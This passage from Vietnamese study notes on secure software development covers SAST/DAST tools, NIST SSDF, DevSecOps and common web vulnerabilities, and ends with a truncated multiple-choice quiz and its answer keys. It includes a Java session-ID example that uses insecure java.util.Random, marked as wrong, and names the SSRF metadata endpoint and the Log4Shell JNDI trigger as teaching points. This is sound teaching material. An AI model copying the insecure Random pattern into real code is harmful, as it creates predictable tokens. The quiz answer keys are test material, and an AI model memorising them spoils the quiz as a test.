| 7 | CWE-416 | Use After Free | |
| 8 | CWE-22 | Path Traversal | |
| 9 | CWE-352 | CSRF | |
| 10 | CWE-434 | Unrestricted File Upload | |

---

### 6.7. Secure Coding Baselines

**Secure coding baseline** là tập hợp các yêu cầu tối thiểu mà mọi dự án phải đáp ứng trước khi chuyển sang giai đoạn tiếp theo hoặc trước khi phát hành.

!!! example "Ví dụ: Lỗi dùng Random không an toàn trong Java"
    ```java
    // Sai - predictable random, dễ đoán
    Random rnd = new Random();
    String sessionId = String.valueOf(rnd.nextInt());

    // Đúng - cryptographically secure random
    SecureRandom rnd = new SecureRandom();
    byte[] token = new byte[32];
    rnd.nextBytes(token);
    String sessionId = Base64.getEncoder().encodeToString(token);
    ```
    Dùng `java.util.Random` cho session ID hoặc token là lỗ hổng nghiêm trọng vì output có thể bị dự đoán.

**Cách triển khai baseline trong tổ chức:**
- Tích hợp **SAST tool** vào IDE (plugin) để developer thấy lỗi ngay khi code
- Chạy scan tự động hàng ngày và tạo báo cáo
- Không cho merge code nếu có lỗi bảo mật mức Critical/High
- Training developer về các lỗi thường gặp trong dự án thực tế

---

### 6.8. SAST vs DAST



| | SAST | DAST |
|---|---|---|
| **Thời điểm** | Trong quá trình code/build | Sau khi deploy lên môi trường test |
| **Cần source code?** | Có | Không |
| **Phát hiện được** | SQL Injection trong code, hardcoded secrets, insecure API | Auth bypass, runtime config sai, XSS qua browser |
| **Không phát hiện được** | Lỗi logic runtime, config sai môi trường | Lỗi nằm sâu trong code path ít dùng |
| **Tốc độ** | Nhanh hơn | Chậm hơn |

---

### 6.9. Công cụ phân tích mã nguồn phổ biến

??? info "SonarQube"
    - Phân tích tĩnh cho Java, JavaScript, Python, C#, C/C++ và nhiều ngôn ngữ khác
    - Phát hiện bug, lỗ hổng, và **code smell**
    - Tích hợp CI/CD: Jenkins, GitHub Actions, GitLab CI
    - Hỗ trợ **taint analysis** để theo dõi luồng dữ liệu không tin cậy

??? info "SpotBugs + FindSecBugs"
    - Plugin bảo mật cho Java
    - Phát hiện **138+ bug patterns** bảo mật
    - Tích hợp với Eclipse, IntelliJ, Maven, Gradle
    - Tham chiếu đến OWASP Top 10 và CWE

??? info "Bandit"
    - Công cụ SAST cho **Python**
    - Dễ dùng từ command line
    - Tích hợp tốt với CI/CD pipeline

??? info "OWASP ZAP"
    - Công cụ DAST mã nguồn mở
    - Quét ứng dụng web đang chạy
    - Hỗ trợ automated scan và manual proxy
    - Miễn phí, cộng đồng lớn

??? info "OWASP Dependency Check"
    - Quét các thư viện/dependency để tìm CVE đã biết
    - Tích hợp với Maven, Gradle, Jenkins, SonarQube
    - Báo cáo điểm **CVSS** cho từng lỗ hổng

---

## 7. Secure Testing & Deployment – Kiểm thử và Triển khai An toàn

### 7.1. White Box vs Black Box Testing

| | White Box Testing | Black Box Testing |
|---|---|---|
| **Định nghĩa** | Tester có quyền truy cập vào source code | Tester không biết cấu trúc bên trong |
| **Góc nhìn** | Developer/insider | Attacker/outsider |
| **Phát hiện** | Lỗi logic, code path ẩn, hardcoded secrets | Lỗi giao diện, auth bypass, business logic |
| **Ví dụ** | Code review, SAST | Penetration testing, DAST |

---

### 7.2. Các loại kiểm thử bảo mật



**Nguyên tắc kiểm thử bảo mật dựa trên CIA:**

- Kiểm tra **Confidentiality**: Dữ liệu có bị lộ không?
- Kiểm tra **Integrity**: Dữ liệu có bị thay đổi trái phép không?
- Kiểm tra **Availability**: Hệ thống có bị DoS không?
- Kiểm tra **Authentication**: Cơ chế xác thực có vững chắc không?
- Kiểm tra **Authorization**: Phân quyền có đúng không?
- Kiểm tra **Non-repudiation**: Log có đủ để chứng minh hành vi không?

---

### 7.3. Phạm vi kiểm thử trong SDLC

| Giai đoạn SDLC | Loại kiểm thử bảo mật |
|---|---|
| Requirements | Security requirements review |
| Design | Threat modeling, architecture review |
| Code / Unit Testing | SAST, code review, secure code scan |
| Integration Testing | DAST, integration security test |
| System Testing | Penetration testing, vulnerability scanning |
| Release/Deployment | Final security sign-off, configuration review |
| Maintenance | Ongoing vulnerability scanning, patching |

---

### 7.4. Quy trình Penetration Testing



---

## 8. Bộ khung Phát triển Phần mềm An toàn (SSDF)

### 8.1. Tổng quan

**SSDF** (Secure Software Development Framework) được đề xuất bởi **NIST** (Hoa Kỳ), tài liệu NIST SP 800-218, phiên bản 1.1 (February 2022). Mục tiêu: đưa ra các khuyến nghị để giảm thiểu rủi ro từ lỗ hổng phần mềm.



---

### 8.2. Chi tiết 4 nhóm Practice

??? info "Prepare the Organization (PO)"
    - Định nghĩa và truyền đạt security requirements cho toàn tổ chức sớm, cập nhật ít nhất hàng năm *(PO 1.1)*
    - Bảo mật và hardening các development endpoint (máy dev) như production system *(PO 5.2)*
    - Đào tạo developer về secure coding

??? info "Protect the Software (PS)"
    - Dùng **code signing** để bảo vệ tính toàn vẹn của executable *(PS 1.1)*
    - Dùng certificate authority đã được thiết lập để xác minh tính toàn vẹn khi phát hành *(PS 2.1)*
    - Chia sẻ **provenance data** — ví dụ **Software Bill of Materials (SBOM)** *(PS 3.2)*

??? info "Produce Well-Secured Software (PW)"
    - Tái sử dụng các thư viện/framework mã nguồn mở đã được bảo mật thay vì tự viết lại *(PW 4.1)*
    - Thực hiện **"clean builds"** trong môi trường build được kiểm soát chặt chẽ *(PW 6.2)*
    - Tích hợp SAST, DAST, dependency check vào pipeline

??? info "Respond to Vulnerabilities (RV)"
    - Thiết lập chương trình **vulnerability disclosure** (để nhận báo cáo từ bên ngoài)
    - Theo dõi các vulnerability database (NVD, CVE...)
    - Có **security response playbook** sẵn sàng
    - Ghi lại **root cause** để phân tích và cải tiến dài hạn
    - Phân phối bản vá với tự động hóa

---

## 9. DevOps và DevSecOps

### 9.1. DevOps là gì?

**DevOps** = kết hợp **Dev**elopment và **Op**eration**s**, là văn hóa làm việc trong môi trường Agile:



**Lợi ích của DevOps:**
- Cải thiện sự hợp tác giữa dev và ops
- Tăng tốc độ phát hành sản phẩm
- Phát hiện và sửa lỗi nhanh hơn
- Tự động hóa deployment và configuration

---

### 9.2. CI/CD Pipeline

| Khái niệm | Ý nghĩa |
|---|---|
| **Continuous Integration (CI)** | Tự động build và test mỗi khi có commit mới |
| **Continuous Delivery (CD)** | Tự động đưa code đã test lên staging, sẵn sàng deploy |
| **Continuous Deployment** | Tự động deploy thẳng lên production sau khi pass test |
| **Continuous Inspection** | Tự động chạy security scan trong pipeline |

**Các bước trong CI/CD pipeline bảo mật:**



---

### 9.3. DevSecOps

**DevSecOps** = tích hợp Security vào toàn bộ pipeline DevOps, không phải chỉ ở cuối:



**Gartner DevSecOps Toolchain theo giai đoạn:**

| Giai đoạn | Công cụ bảo mật |
|---|---|
| Plan | Threat Modeling, Security Training |
| Code | IDE Security Plugin (SonarLint...) |
| Build | SAST, SCA (Software Composition Analysis) |
| Test | DAST, IAST, Fuzzing, Penetration Test |
| Release | Software Signing, Integrity Check |
| Deploy | WAF, RASP, Defense in Depth |
| Monitor | SIEM, Log Analysis, Penetration Test liên tục |

---

### 9.4. Continuous Inspection cho Java

**SAST Tools:**
- **SpotBugs + FindSecBugs** — phân tích bytecode Java, tìm bug patterns
- **SonarQube** — taint analysis, track luồng dữ liệu độc hại

**DAST Tools:**
- **OWASP ZAP** — quét web app đang chạy, kiểm tra header, endpoint, traffic

**Dependency Analysis:**
- **OWASP Dependency Check** — tích hợp Maven/Jenkins/SonarQube, báo cáo CVE và điểm CVSS

**Container Image Scanning:**
- **Anchore Engine** — mã nguồn mở, phân tích và chứng nhận Docker image, tích hợp Kubernetes/ECS

---

## 10. Các lỗi thường gặp (Common Pitfalls)

### 10.1. CSRF (Cross-Site Request Forgery)

**Cơ chế tấn công:**



**Phòng tránh:**
- Sử dụng **CSRF Token** (synchronizer token pattern)
- Kiểm tra **Origin/Referer header**
- Dùng **SameSite cookie attribute**
- Re-authentication cho các giao dịch quan trọng

---

### 10.2. SSRF (Server-Side Request Forgery)

**Cơ chế tấn công:**



**Hậu quả:** Attacker có thể truy cập internal services, cloud metadata endpoint (AWS: 169.254.169.254), scan internal network.

**Phòng tránh:**
- Whitelist các domain/IP được phép fetch
- Không cho phép fetch đến private IP ranges (10.x, 172.16.x, 192.168.x)
- Validate và sanitize URL input

---

### 10.3. Insecure Deserialization

- **Serialization:** Chuyển object thành byte stream để lưu trữ hoặc truyền đi
- **Deserialization:** Khôi phục object từ byte stream

!!! danger "Vấn đề"
    Nếu kẻ tấn công có thể thay thế dữ liệu đã serialize bằng payload độc hại, quá trình deserialization có thể dẫn đến **Remote Code Execution (RCE)**.

**Phòng tránh:**
- Hạn chế sử dụng serialization khi có thể thay thế bằng JSON/XML
- Nếu bắt buộc dùng: chỉ deserialize từ nguồn tin cậy
- Validate dữ liệu trước khi deserialize
- Dùng thư viện có cơ chế **deserialization filtering**

---

### 10.4. Race Condition

**Race condition** xảy ra khi kết quả của chương trình phụ thuộc vào thứ tự/thời điểm thực thi của các thread, mà thứ tự đó không được đảm bảo.

!!! example "Ví dụ thực tế"
    Hệ thống thanh toán kiểm tra số dư, rồi mới trừ tiền. Nếu hai request đến đồng thời, cả hai đều thấy số dư đủ và cả hai đều được xử lý → tài khoản bị trừ tiền hai lần hoặc rút tiền vượt số dư.

**Phòng tránh:**
- Dùng **database transactions** với mức isolation phù hợp
- Dùng **mutex/lock** để đồng bộ hóa truy cập tài nguyên dùng chung
- Thiết kế **idempotent operations**

---

---

## 📝 Câu hỏi Trắc nghiệm

**Câu 1.** CIA Triad trong bảo mật thông tin gồm những thành phần nào?

- A. Confidentiality, Integrity, Authentication
- B. Confidentiality, Integrity, Availability
- C. Compliance, Integrity, Availability
- D. Confidentiality, Inspection, Availability

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    CIA Triad là ba trụ cột nền tảng của bảo mật thông tin: **Confidentiality** (chỉ người được phép mới truy cập dữ liệu), **Integrity** (dữ liệu không bị thay đổi trái phép), **Availability** (hệ thống luôn hoạt động khi cần).

---

**Câu 2.** "Defense in Depth" có nghĩa là gì?

- A. Chỉ cần một lớp bảo mật mạnh nhất
- B. Bảo mật ở tầng database là đủ
- C. Triển khai nhiều lớp bảo mật độc lập, lớp này vượt qua thì lớp khác vẫn bảo vệ
- D. Tập trung bảo mật vào giai đoạn Testing

??? info "Đáp án & Giải thích"
    **Đáp án: C**

    Defense in Depth = phòng thủ theo chiều sâu. Ví dụ web app có 3 lớp: WAF → Security Testing → Secure Coding Practices. Không bao giờ chỉ dựa vào một lớp duy nhất.

---

**Câu 3.** Nguyên tắc "Shifting Left" trong SSDLC có nghĩa là gì?

- A. Chuyển team bảo mật sang bên trái văn phòng
- B. Tích hợp bảo mật sớm từ đầu vòng đời phát triển phần mềm, không chờ đến Testing
- C. Ưu tiên kiểm thử bảo mật hơn phát triển tính năng
- D. Giảm bớt số lượng security requirements

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    Shifting Left = đẩy các hoạt động bảo mật về phía đầu (trái) của timeline SDLC. Vì chi phí sửa lỗi ở giai đoạn Requirements (~$10) rẻ hơn rất nhiều so với sau Release (Significantly More).

---

**Câu 4.** Theo mô hình chi phí sửa lỗi trong SDLC, giai đoạn nào tốn kém nhất khi phát hiện và xử lý lỗ hổng?

- A. Requirements
- B. Design
- C. Code
- D. Incident Response (sau khi phát hành)

??? info "Đáp án & Giải thích"
    **Đáp án: D**

    Chi phí tăng dần theo từng giai đoạn: Requirements (~$10) → Design (~$100) → Code (~$1,000) → Testing (cao hơn) → Incident Response (Significantly More). Vá lỗi sau khi đã phát hành còn phải tính thêm thiệt hại về uy tín, pháp lý, khách hàng bị ảnh hưởng.

---

**Câu 5.** "Design Flaw" khác "Security Bug" ở điểm nào?

- A. Design Flaw chỉ xảy ra ở ngôn ngữ C/C++, Security Bug xảy ra ở mọi ngôn ngữ
- B. Design Flaw là lỗi trong thiết kế (cho phép hành động vốn không được phép), Security Bug là lỗi trong lập trình (cho phép dùng ứng dụng một cách độc hại)
- C. Design Flaw nghiêm trọng hơn Security Bug
- D. Chúng là cùng một thứ, chỉ khác cách gọi

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    Design Flaw: sai từ khâu thiết kế, ví dụ Log4Shell — thiết kế cho phép JNDI lookup trong log message. Security Bug: lỗi trong lúc code, ví dụ quên kiểm tra null pointer. Biện pháp xử lý cũng khác nhau: Design Flaw cần threat modeling và redesign; Security Bug cần code review và fix code.

---

**Câu 6.** Log4Shell (CVE-2021-44228) là ví dụ điển hình của loại lỗ hổng nào trong OWASP Top 10 2021?

- A. Broken Access Control
- B. SQL Injection
- C. Insecure Design
- D. Security Misconfiguration

??? info "Đáp án & Giải thích"
    **Đáp án: C**

    Log4Shell là Insecure Design vì Log4j được thiết kế để tự động xử lý pattern `${...}` bao gồm cả JNDI lookup. Đây không phải lỗi lập trình đơn thuần mà là quyết định thiết kế sai về mặt bảo mật ngay từ đầu, dẫn đến RCE khi log bất kỳ chuỗi nào chứa `${jndi:...}`.

---

**Câu 7.** Trong OWASP Top 10 2021, lỗ hổng nào đứng đầu (hạng 1)?

- A. Injection
- B. Broken Authentication
- C. Broken Access Control
- D. Cryptographic Failures

??? info "Đáp án & Giải thích"
    **Đáp án: C**

    OWASP Top 10 2021: Broken Access Control leo từ hạng 5 (2017) lên hạng 1 (2021). Injection giảm từ hạng 1 xuống hạng 3. Đây là thay đổi đáng chú ý phản ánh xu hướng lỗ hổng phân quyền ngày càng phổ biến.

---

**Câu 8.** Những lỗ hổng nào là hoàn toàn MỚI trong OWASP Top 10 2021 (không có trong 2017)?

- A. Injection, CSRF, XSS
- B. Insecure Design, Software and Data Integrity Failures, SSRF
- C. Broken Access Control, Cryptographic Failures
- D. Security Misconfiguration, Vulnerable Components

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    Ba danh mục hoàn toàn mới trong OWASP 2021: **A04 - Insecure Design**, **A08 - Software and Data Integrity Failures**, **A10 - Server-Side Request Forgery (SSRF)**. Các mục còn lại đều tồn tại từ 2017, chỉ thay đổi vị trí.

---

**Câu 9.** STRIDE trong threat modeling là viết tắt của gì?

- A. Security, Trust, Risk, Integrity, Defense, Evaluation
- B. Spoofing, Tampering, Repudiation, Information Disclosure, Denial of Service, Elevation of Privilege
- C. System, Threat, Risk, Impact, Data, Exploitation
- D. Scan, Test, Review, Identify, Detect, Evaluate

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    STRIDE: **S**poofing (giả mạo danh tính), **T**ampering (giả mạo dữ liệu), **R**epudiation (thoái thác trách nhiệm), **I**nformation Disclosure (lộ thông tin), **D**enial of Service (từ chối dịch vụ), **E**levation of Privilege (leo thang đặc quyền). Được Microsoft tạo ra năm 1999.

---

**Câu 10.** "Repudiation" trong STRIDE đề cập đến mối đe dọa nào?

- A. Kẻ tấn công từ chối dịch vụ với người dùng hợp lệ
- B. Người dùng phủ nhận đã thực hiện hành vi độc hại, không để lại bằng chứng
- C. Hệ thống từ chối xử lý request hợp lệ
- D. Kẻ tấn công từ chối là kẻ tấn công

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    Repudiation = thoái thác trách nhiệm. Kẻ tấn công thực hiện hành vi độc hại rồi phủ nhận ("Tôi không làm vậy"). Biện pháp đối phó là **Non-repudiation** — đảm bảo hệ thống có log, digital signature, audit trail đủ để chứng minh ai đã làm gì.

---

**Câu 11.** DREAD là phương pháp threat modeling đánh giá theo các tiêu chí nào?

- A. Damage, Risk, Exploitability, Attack surface, Detection
- B. Damage, Reproducibility, Exploitability, Affected users, Discoverability
- C. Design, Risk, Evaluation, Analysis, Detection
- D. Data, Reproducibility, Exploit, Access, Discovery

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    DREAD: **D**amage (thiệt hại), **R**eproducibility (khả năng tái hiện), **E**xploitability (khả năng khai thác), **A**ffected users (số người bị ảnh hưởng), **D**iscoverability (dễ tìm lỗ hổng hay không). Mỗi tiêu chí chấm 0–10, tính trung bình để ra điểm rủi ro.

---

**Câu 12.** Phương pháp PASTA trong threat modeling có bao nhiêu bước?

- A. 4
- B. 5
- C. 6
- D. 7

??? info "Đáp án & Giải thích"
    **Đáp án: D**

    PASTA (Process for Attack Simulation and Threat Analysis) gồm 7 bước: Define Objectives → Define Technical Scope → Decomposition & Analysis → Threat Analysis → Vulnerabilities & Weaknesses Analysis → Attack Modeling → Risk & Impact Analysis.

---

**Câu 13.** TRIKE khác các phương pháp threat modeling khác ở điểm nào?

- A. Chỉ dùng cho ứng dụng mobile
- B. Tiếp cận từ góc nhìn quản lý rủi ro, dùng DFD và gán giá trị CRUD cho threats
- C. Chỉ do Microsoft phát triển
- D. Tự động hóa hoàn toàn bằng AI

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    TRIKE là phương pháp **mã nguồn mở**, tiếp cận từ góc nhìn **quản lý rủi ro**. Sử dụng **Data Flow Diagram (DFD)** để mô phỏng luồng dữ liệu và gán giá trị rủi ro theo CRUD (Create/Read/Update/Delete) cho từng threat.

---

**Câu 14.** VAST (Visual, Agile, and Simple Threat) phù hợp nhất với môi trường nào?

- A. Dự án nhỏ, team 2–3 người
- B. Ứng dụng standalone không kết nối internet
- C. Tổ chức lớn, môi trường DevOps với nhiều team và công cụ CI/CD
- D. Hệ thống embedded/firmware

??? info "Đáp án & Giải thích"
    **Đáp án: C**

    VAST được thiết kế cho **môi trường DevOps lớn**, với đặc điểm: **tự động hóa** threat modeling, **tích hợp** với toàn bộ SDLC và công cụ CI/CD, **cộng tác** giữa developers, architects, security team và lãnh đạo.

---

**Câu 15.** OCTAVE tập trung vào điều gì trong threat modeling?

- A. Phân tích mã nguồn tĩnh
- B. Xác định, đánh giá và quản lý rủi ro cho tài sản CNTT quan trọng của tổ chức
- C. Kiểm thử penetration tự động
- D. Quét dependency của thư viện bên thứ 3

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    OCTAVE (Operationally Critical Threat, Asset, and Vulnerability Evaluation): xác định **critical assets** (tài sản CNTT quan trọng), xác định threats và vulnerabilities với từng tài sản, đánh giá ảnh hưởng với CIA của tổ chức. Kết hợp góc nhìn của lãnh đạo, kỹ thuật và vận hành.

---

**Câu 16.** Công cụ nào sau đây là của Microsoft, dùng để vẽ DFD và tự động sinh danh sách threats theo STRIDE?

- A. OWASP Threat Dragon
- B. Threagile
- C. Microsoft Threat Modeling Tool
- D. IriusRisk

??? info "Đáp án & Giải thích"
    **Đáp án: C**

    **Microsoft Threat Modeling Tool** là công cụ miễn phí của Microsoft, cho phép vẽ Data Flow Diagram và tự động sinh threats theo STRIDE. Hỗ trợ template cho Azure, web app... Threagile dùng file YAML, OWASP Threat Dragon là mã nguồn mở của OWASP.

---

**Câu 17.** Threagile có đặc điểm nổi bật nào?

- A. Chỉ chạy trên Windows
- B. Mô hình hóa kiến trúc bằng file YAML, tự động chạy risk rules và tạo báo cáo
- C. Chỉ hỗ trợ STRIDE
- D. Yêu cầu trả phí license đắt tiền

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    Threagile: mã nguồn mở, ra mắt tại Black Hat Arsenal 2020 & DEF CON 2020. Đặc điểm: khai báo kiến trúc bằng **file YAML** trong IDE, sau đó chạy **risk rules** tự động để tạo báo cáo với danh sách rủi ro và tham chiếu đến OWASP ASVS + OWASP Cheat Sheet. Tích hợp tốt với DevSecOps.

---

**Câu 18.** "Least Privilege" trong security requirements có nghĩa là gì?

- A. Cấp cho user quyền cao nhất để tránh lỗi
- B. Mỗi thành phần/user chỉ được cấp đúng mức quyền tối thiểu cần thiết để hoàn thành nhiệm vụ
- C. Chỉ admin mới có quyền đăng nhập hệ thống
- D. Giảm số lượng user account để dễ quản lý

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    Least Privilege = quyền tối thiểu cần thiết. Ví dụ: ứng dụng chỉ cần đọc dữ liệu thì chỉ cấp quyền READ, không cấp WRITE/DELETE. Service account chỉ truy cập đúng database cần thiết. Nguyên tắc này giới hạn thiệt hại nếu account bị compromise.

---

**Câu 19.** Tại sao không nên dùng Production data trong môi trường development/testing?

- A. Vì production data thường quá lớn để chạy test
- B. Vì môi trường dev/test kém bảo mật hơn, dùng production data thật sẽ làm lộ thông tin nhạy cảm/PII của người dùng thật
- C. Vì production data thường bị mã hóa không đọc được
- D. Vì đây là quy định pháp luật bắt buộc toàn cầu

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    Môi trường dev/test có nhiều người truy cập, ít được bảo mật nghiêm ngặt hơn production. Dùng dữ liệu thật (PII, tài khoản ngân hàng...) trong môi trường này có thể dẫn đến lộ thông tin. Phải dùng dữ liệu đã **masked/anonymized** (che thông tin nhận dạng).

---

**Câu 20.** "Security through obscurity" là gì và tại sao nó không đủ?

- A. Kỹ thuật mã hóa nguồn mở, an toàn vì được nhiều người kiểm tra
- B. Dựa vào việc giấu kín cơ chế/source code để bảo mật — không đủ vì kẻ tấn công có thể reverse engineer hoặc tìm ra bằng cách khác
- C. Chiến lược bảo mật vật lý cho máy chủ
- D. Phương pháp mã hóa dữ liệu mạnh nhất hiện nay

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    Security through obscurity = "không ai biết code của tôi nên tôi an toàn." Đây là quan niệm sai. Kẻ tấn công có thể reverse engineer binary, tìm lỗ hổng qua black-box testing, hoặc mua/leak source code. Bảo mật phải dựa trên cơ chế vững chắc, không phải sự bí mật của cơ chế đó.

---

**Câu 21.** Parameterized Query (Prepared Statement) giải quyết loại lỗ hổng nào?

- A. XSS
- B. CSRF
- C. SQL Injection
- D. Path Traversal

??? info "Đáp án & Giải thích"
    **Đáp án: C**

    Parameterized Query ngăn SQL Injection bằng cách tách biệt cấu trúc câu SQL và dữ liệu đầu vào. Database biết phần nào là code SQL và phần nào là data, nên input của user không thể thay đổi cấu trúc câu SQL dù có chứa ký tự đặc biệt như `'`, `--`, `;`.

---

**Câu 22.** SAST và DAST khác nhau như thế nào?

- A. SAST chạy trên production, DAST chạy trên staging
- B. SAST phân tích mã nguồn tĩnh (không cần chạy app), DAST kiểm thử ứng dụng đang chạy (mô phỏng tấn công từ bên ngoài)
- C. SAST chỉ dùng cho Java, DAST dùng cho mọi ngôn ngữ
- D. SAST tự động hoàn toàn, DAST cần làm thủ công

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    **SAST** (Static Application Security Testing): phân tích source code/bytecode không cần chạy, phát hiện sớm trong quá trình phát triển, ví dụ SonarQube, SpotBugs. **DAST** (Dynamic Application Security Testing): kiểm thử app đang chạy, mô phỏng hacker từ bên ngoài, phát hiện lỗi runtime và config, ví dụ OWASP ZAP, Burp Suite.

---

**Câu 23.** SonarQube là công cụ thuộc loại nào?

- A. DAST
- B. Penetration Testing
- C. SAST (Static Application Security Testing)
- D. Network Scanner

??? info "Đáp án & Giải thích"
    **Đáp án: C**

    SonarQube là công cụ **SAST** — phân tích mã nguồn tĩnh để phát hiện bug, lỗ hổng, và code smell. Hỗ trợ nhiều ngôn ngữ (Java, JS, Python, C#...), tích hợp CI/CD, hỗ trợ taint analysis.

---

**Câu 24.** OWASP Dependency Check dùng để làm gì?

- A. Kiểm tra cú pháp code
- B. Quét các thư viện/dependency để phát hiện CVE (lỗ hổng đã biết)
- C. Kiểm tra performance của ứng dụng
- D. Tạo báo cáo penetration testing

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    OWASP Dependency Check quét các thư viện bên thứ 3 mà dự án đang dùng, đối chiếu với **NVD (National Vulnerability Database)** để phát hiện CVE đã biết. Báo cáo điểm **CVSS** cho từng lỗ hổng. Tích hợp với Maven, Gradle, Jenkins, SonarQube.

---

**Câu 25.** "Secure coding baseline" là gì?

- A. Code mẫu an toàn do OWASP cung cấp
- B. Tập hợp yêu cầu secure code tối thiểu mà dự án phải đáp ứng trước khi chuyển giai đoạn hoặc phát hành
- C. Phiên bản backup của source code
- D. Tiêu chuẩn đặt tên biến trong code

??? info "Đáp án & Giải thích"
    **Đáp án: B**

    Secure coding baseline = các yêu cầu tối thiểu + checklist để team dự án chuyển sang giai đoạn tiếp theo. Cũng là điều kiện để sản phẩm được phân phối (phải pass tool scan nhất định). Cần kết hợp với công cụ thực tế và training, không chỉ là tài liệu quy tắc.

---

**Câu 26.** Tại sao nên dùng `SecureRandom` thay vì `Random` trong Java để tạo session ID?

- A. `SecureRandom` nhanh hơn `Random`
- B. `Random` chỉ chạy trên Windows, `SecureRandom` chạy đa nền tảng
- C. `Random` tạo ra số có thể đoán được (predictable), kẻ tấn công có thể dự đoán session ID và chiếm phiên làm việc
- D. `SecureRandom` tạo số lớn hơn `Random`

??? info "Đáp án & Giải thích"
    **Đáp án: C**

    `java.util.Random` dùng thuật toán Linear Congruential Generator — output có thể đoán được nếu biết vài giá trị trước. `java.security.SecureRandom` dùng nguồn entropy hệ điều hành, tạo số **cryptographically secure** — không thể đoán được. Dùng `Random` cho session ID là lỗ hổng nghiêm trọng.

---

**Câu 27.** Trong SSDF của NIST, "SBOM" là gì?

- A. Security Baseline Operations Manual
